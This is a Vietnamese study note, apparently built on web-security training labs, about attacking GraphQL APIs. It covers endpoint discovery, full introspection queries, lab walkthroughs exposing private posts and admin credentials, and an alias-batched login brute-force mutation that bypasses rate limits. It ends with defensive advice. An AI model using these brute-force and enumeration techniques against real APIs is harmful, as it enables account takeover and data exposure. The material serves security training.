









# **GraphQL API**

- Các lỗ hổng GraphQL thường phát sinh do lỗi triển khai và thiết kế.
- Các cuộc tấn công GraphQL thường ở dạng các request độc hại có thể cho phép kẻ tấn công lấy dữ liệu hoặc thực hiện các hành động trái phép. Các cuộc tấn công này có thể có tác động nghiêm trọng, đặc biệt nếu người dùng có thể giành được đặc quyền quản trị viên bằng cách thao tác query hoặc thực hiện khai thác CSRF. API GraphQL dễ bị tổn thương cũng có thể dẫn đến các vấn đề tiết lộ thông tin.



## **GraphQL là gì?**

- GraphQL là ngôn ngữ query API được thiết kế để hỗ trợ giao tiếp hiệu quả giữa máy khách và máy chủ. Nó cho phép người dùng chỉ định chính xác dữ liệu họ muốn trong phản hồi, giúp tránh các đối tượng phản hồi lớn và nhiều lệnh gọi đôi khi có thể thấy bằng API REST.

- Các dịch vụ GraphQL xác định một hợp đồng mà qua đó khách hàng có thể giao tiếp với máy chủ. Khách hàng không cần biết dữ liệu nằm ở đâu. Thay vào đó, máy khách gửi query đến máy chủ GraphQL để tìm nạp dữ liệu từ những nơi có liên quan. Vì GraphQL không phụ thuộc vào nền tảng nên nó có thể được triển khai bằng nhiều ngôn ngữ lập trình và có thể được sử dụng để giao tiếp với hầu hết mọi kho lưu trữ dữ liệu.

## **Cách thức hoạt động của GraphQL**

Xem ở [GraphQL_API](./GraphQL_API.md)

## **Tìm kiếm các GraphQL endpoints**

- Trước khi có thể kiểm tra API GraphQL, trước tiên bạn cần tìm điểm cuối của nó. Vì API GraphQL sử dụng cùng một điểm cuối cho tất cả các yêu cầu nên đây là một thông tin có giá trị.

> **`Universal queries (query chung)`**

- Nếu bạn gửi `query{__typename}` đến bất kỳ điểm cuối GraphQL nào, nó sẽ bao gồm chuỗi `{"data": {"__typename": "query"}}` ở đâu đó trong phản hồi của nó. Đây được gọi là query chung và là công cụ hữu ích trong việc kiểm tra xem URL có tương ứng với dịch vụ GraphQL hay không.

> **`Các endpoint names phổ biến`**

- /graphql
- /api
- /api/graphql
- /graphql/api
- /graphql/graphql

> **`Request methods`**

- Có request Post dữ liệu gửi đi dưới dạng JSON

## **Khám phá thông tin schema**

- Bước tiếp theo trong việc kiểm tra API là ghép các thông tin về lược đồ cơ bản lại với nhau.

- Cách tốt nhất để làm điều này là sử dụng các truy vấn introspection. Introspection là một hàm GraphQL tích hợp cho phép bạn truy vấn máy chủ để biết thông tin về lược đồ.

- Việc xem xét introspection giúp bạn hiểu cách bạn có thể tương tác với API GraphQL. Nó cũng có thể tiết lộ dữ liệu có khả năng nhạy cảm, chẳng hạn như trường mô tả.

### **Sử dụng introspection**

> `Probing for introspection`

- Bạn có thể thăm dò sự xem xét introspection bằng cách sử dụng truy vấn đơn giản sau đây. Nếu tính năng xem xét introspection được bật, phản hồi sẽ trả về tên của tất cả các truy vấn có sẵn.

```
#Introspection probe request
{
    "query": "{__schema{queryType{name}}}"
}
```

> `Running a full introspection query`

```
#Full introspection query
query IntrospectionQuery {
    __schema {
        queryType {
            name
        }
        mutationType {
            name
        }
        subscriptionType {
            name
        }
        types {
            ...FullType
        }
        directives {
            name
            description
            args {
                ...InputValue
            }
            onOperation  #Often needs to be deleted to run query
            onFragment   #Often needs to be deleted to run query
            onField      #Often needs to be deleted to run query
        }
    }
}

fragment FullType on __Type {
    kind
    name
    description
    fields(includeDeprecated: true) {
        name
        description
        args {
            ...InputValue
        }
        type {
            ...TypeRef
        }
        isDeprecated
        deprecationReason
    }
    inputFields {
        ...InputValue
    }
    interfaces {
        ...TypeRef
    }
    enumValues(includeDeprecated: true) {
        name
        description
        isDeprecated
        deprecationReason
    }
    possibleTypes {
        ...TypeRef
    }
}

fragment InputValue on __InputValue {
    name
    description
    type {
        ...TypeRef
    }
    defaultValue
}

fragment TypeRef on __Type {
    kind
    name
    ofType {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
            }
        }
    }
}
```

- Sau khi nhận được kết quả sử dụng công cụ sau đây để nhìn một cách trực quan: [**GraphQL visualizer**](http://nathanrandal.com/graphql-visualizer/)

## **LAB-Exploite**

> `Lab: Accessing private GraphQL posts`

- Ở đây chúng ta có một blog. Trang web đã truy vấn bằng GraphQL để lấy dữ liệu.



- Trước khi trang web truy vấn với id bằng 5, thì nó đã truy vấn để lấy thông tin tất cả nhưng thiếu id bằng 3. Bây giờ tôi sẽ thử truy vấn với `id:3`

- Tôi đã thực hiện scan qua một lần và thấy được một vài trường kì lạ như `postPassword`

- Tôi thực hiện tìm postPassword như sau:



> `Lab: Accidental exposure of private GraphQL fields`

- Bước đầu tiên, tôi thực hiện scaner GraphQL ta được như sau:




- Vậy tôi có thể tìm được tài khoản admin.

## **Bypassing GraphQL introspection defences**


> `Lab: Finding a hidden GraphQL endpoint`

- Đối với lab này dường như GraphQL endpoint đã bị ẩn đi. Tôi đã thử truy vấn GET với `/api`



- Và đã báo cho chúng ta thiếu truy vấn `Query`. Và chúng ta đã thành công tìm được một endpoint



- Tôi thực hiện query hết thông tin và ném vào tool để nhìn một cách tổng quát hơn.



- Vận dụng thông tin trước đó tôi đã có thể viết truy vấn GraphQL để xóa user:



## **Bypassing rate limiting using aliases**

- Mặc dù aliases nhằm mục đích giới hạn số lượng lệnh gọi API bạn cần thực hiện, nhưng chúng cũng có thể được sử dụng để ép buộc điểm cuối GraphQL.

- Nhiều điểm cuối sẽ có sẵn một số loại giới hạn tốc độ để ngăn chặn các cuộc tấn công bruteforce. Một số bộ giới hạn tốc độ hoạt động dựa trên số lượng yêu cầu HTTP nhận được thay vì số lượng thao tác được thực hiện trên điểm cuối. Vì aliases cho phép bạn gửi nhiều truy vấn trong một tin nhắn HTTP một cách hiệu quả nên chúng có thể bỏ qua hạn chế này.

- Ví dụ đơn giản bên dưới hiển thị một loạt truy vấn aliases để kiểm tra xem mã giảm giá của cửa hàng có hợp lệ hay không. Hoạt động này có khả năng vượt qua giới hạn tốc độ vì đây là một yêu cầu HTTP duy nhất, mặc dù nó có thể được sử dụng để kiểm tra một số lượng lớn mã giảm giá cùng một lúc.

```
#Request with aliased queries
query isValidDiscount($code: Int) {
    isvalidDiscount(code:$code){
        valid
    }
    isValidDiscount2:isValidDiscount(code:$code){
        valid
    }
    isValidDiscount3:isValidDiscount(code:$code){
        valid
    }
}
```

>`Lab: Bypassing GraphQL brute force protections`

- Đối với trang web này tôi thực hiện scan qua một lần


- Tôi phát hiện chức năng đăng nhập được truy vấn GraphQL


- Tôi sẽ thực hiện bruteforce với mật khẩu như sau

```
mutation {
    bruteforce0:login(input:{password: "123456", username: "carlos"}) {
        token
        success
    }
    bruteforce1:login(input:{password: "password", username: "carlos"}) {
        token
        success
    }
    bruteforce2:login(input:{password: "12345678", username: "carlos"}) {
        token
        success
    }
    bruteforce3:login(input:{password: "qwerty", username: "carlos"}) {
        token
        success
    }
    . . .
    bruteforce98:login(input:{password: "moon", username: "carlos"}) {
        token
        success
    }
    bruteforce99:login(input:{password: "moscow", username: "carlos"}) {
        token
        success
    }
}
```

- Và tôi đã tìm dc mật khẩu vs bruteforce65 với mật khẩu: `11111111`



## **Cách phòng chống tấn công GraphQL**

- Nếu API của bạn không dành cho sử dụng public, hãy tắt tính năng introspection trên đó. Điều này khiến kẻ tấn công khó lấy được thông tin về cách hoạt động của API hơn và giảm nguy cơ tiết lộ thông tin không mong muốn.

- Nếu API của bạn được thiết kế cho sử dụng public thì có thể bạn sẽ cần phải bật tính năng introspection. Tuy nhiên, bạn nên xem lại lược đồ của API để đảm bảo rằng lược đồ đó không hiển thị công khai các trường không mong muốn.

- Hãy chắc chắn rằng các đề xuất bị vô hiệu hóa. Điều này ngăn cản những kẻ tấn công có thể sử dụng Clairvoyance hoặc các công cụ tương tự để thu thập thông tin về lược đồ cơ bản.

- Đảm bảo rằng lược đồ API của bạn không hiển thị bất kỳ trường người dùng riêng tư nào, chẳng hạn như địa chỉ email hoặc ID người dùng.

## **Cách phòng chống GraphQL brute force attacks**

- Giới hạn độ sâu truy vấn của các truy vấn API của bạn. Thuật ngữ "độ sâu truy vấn" đề cập đến số cấp độ lồng trong một truy vấn. Các truy vấn lồng nhau nhiều có thể có tác động đáng kể đến hiệu suất và có khả năng tạo cơ hội cho các cuộc tấn công DoS nếu chúng được chấp nhận. Bằng cách giới hạn độ sâu truy vấn mà API của bạn chấp nhận, bạn có thể giảm khả năng điều này xảy ra.

- Cấu hình giới hạn hoạt động. Giới hạn hoạt động cho phép bạn định cấu hình số lượng trường duy nhất, bí danh và trường gốc tối đa mà API của bạn có thể chấp nhận.

- Định cấu hình số byte tối đa mà một truy vấn có thể chứa.

- Hãy xem xét triển khai phân tích chi phí trên API của bạn. Phân tích chi phí là một quá trình trong đó ứng dụng thư viện xác định chi phí tài nguyên liên quan đến việc chạy các truy vấn khi chúng được nhận. Nếu một truy vấn quá phức tạp về mặt tính toán để chạy thì API sẽ loại bỏ nó.
